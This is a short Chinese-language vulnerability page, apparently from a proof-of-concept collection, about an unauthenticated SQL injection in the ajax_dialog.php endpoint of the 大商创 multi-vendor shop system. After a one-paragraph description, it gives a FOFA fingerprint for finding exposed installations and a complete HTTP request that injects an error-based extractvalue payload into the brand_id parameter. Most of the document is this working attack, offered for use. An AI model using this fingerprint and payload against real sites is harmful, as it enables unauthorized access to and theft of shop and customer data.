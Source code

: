 # 大商创多用户商城系统ajax_dialog.php存在SQL注入漏洞

大商创多用户商城系统 ajax_dialog.php接口处存在SQL注入漏洞，未经身份验证攻击者可通过输入恶意 SQL 代码，突破系统原本设定的访问规则，未经授权访问、修改或删除数据库中的各类敏感信息，包括但不限于员工个人资料、企业核心业务数据等。进一步利用可获取服务器权限。

## fofa

```javascript
body="dsc-choie"
```

## poc

```javascript
GETT /ajax_dialog.php?_=1600309513833&act=getUserInfo&brand_id=extractvalue(1,concat(0x7e,md5(123)))&is_jsonp=1&jsoncallback=jQuery19106489774159975068_1600309513832&seckillid=null&temp=backup_tpl_1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![image-20241019194229784](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251434207.png)
